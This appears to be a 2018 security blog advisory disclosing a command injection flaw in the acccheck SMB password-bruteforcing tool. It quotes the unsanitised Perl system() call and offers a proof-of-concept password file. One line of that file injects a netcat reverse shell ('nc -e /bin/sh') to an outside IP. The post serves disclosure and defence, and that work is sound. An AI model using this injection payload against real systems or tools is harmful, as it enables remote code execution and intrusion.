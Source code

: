 ```yaml
---
layout: post
title:  "acccheck command injection"
date:   2018-06-13 10:06:05 +0200
categories: 
---
```


# Never trust the password lists

## Summary

Penetration testers often download password lists from external sources to use them in their bruteforcing tools. A very quick audit of some bruteforcing tools provided with Kali Linux show that a few of them show vulnerabilities where using maliciously crafted password lists could be dangerous.

`acccheck` is one of these tool, which is vulnerable to command injection.

Penetration testers should always audit their username and password bruteforcing lists before using them.

## Description

From the source code: 

```
Attempts to connect to the IPC$ and ADMIN$ shares depending on which flags have been
chosen, and tries a combination of usernames and passwords in the hope to identify
the password to a given account via a dictionary password guessing attack.
```

The tool can be obtained at [https://labs.portcullis.co.uk/tools/acccheck/](https://labs.portcullis.co.uk/tools/acccheck/).


## Vulnerability

The tools is vulnerable to command injection due to a lack of sanitization of user input.

By feeding a specific user or password list, arbitrary code can be executed.

Example of vulnerable code:

```
foreach $singlePass (@PASS_LIST)                                          
      {                                                                         
        chomp($singlePass);                                                     
        output("Host:$singleIp, Username:Administrator, Password:'$singlePass'");
        $connectValue = system("smbclient \\\\\\\\$singleIp\\\\admin\$ -U Administrator%'$singlePass' -c 'exit' 1> /dev/null 2> /dev/null");
```

$singlePass and $singleIP are retreived from the username and password file.

## Proof of concept

```
root@kali:~# cat passwords.txt 
admin
test
';printf 'nc -e /bin/sh 192.168.1.254 80' > /tmp/pwned ; sh /tmp/pwned & #
```

```
root@kali:~# acccheck -t 192.168.1.1 -P passwords.txt
```

## Recommendations

1. Usernames and passwords provided per lists should be correctly escaped before inserted in the prepared statement.

2. Username and password lists from unknown sources should never be trusted and always be audited before use.
